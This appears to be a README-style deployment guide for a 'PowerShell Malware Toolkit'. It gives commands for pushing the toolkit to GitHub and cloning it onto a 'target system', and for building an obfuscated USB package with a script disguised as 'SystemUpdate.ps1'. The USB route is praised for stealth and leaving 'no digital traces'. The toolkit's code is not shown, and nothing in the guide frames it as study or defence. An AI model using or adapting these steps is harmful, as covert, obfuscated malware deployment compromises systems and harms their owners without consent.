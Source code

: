 # PowerShell Malware Toolkit - Deployment Guide

## 🚀 Deployment Options

### **Option 1: GitHub Repository (Recommended for Teams)**

#### **Setup GitHub Repository:**
```bash
# Initialize git
git init
git add .
git commit -m "Initial PowerShell toolkit"

# Create GitHub repo and push
git remote add origin https://github.com/yourusername/powershell-toolkit.git
git push -u origin main
```

#### **Deploy from GitHub:**
```powershell
# On target system
git clone https://github.com/yourusername/powershell-toolkit.git
cd powershell-toolkit
.\Deploy.ps1 -Obfuscate
```

**✅ Pros:** Version control, easy updates, professional
**❌ Cons:** Internet required, GitHub logs activity

---

### **Option 2: USB Deployment (Stealth)**

#### **Prepare USB Package:**
```powershell
# Create deployment package
.\Deploy.ps1 -Obfuscate -CreateExecutable -OutputPath ".\USB-Package"

# Copy to USB drive
Copy-Item -Path ".\USB-Package\*" -Destination "E:\MalwareToolkit\" -Recurse
```

#### **Deploy from USB:**
```powershell
# On target system
E:\MalwareToolkit\SystemUpdate.ps1
```

**✅ Pros:** No internet, no digital traces, portable
**❌ Cons:** Physical access required, USB can be lost

---
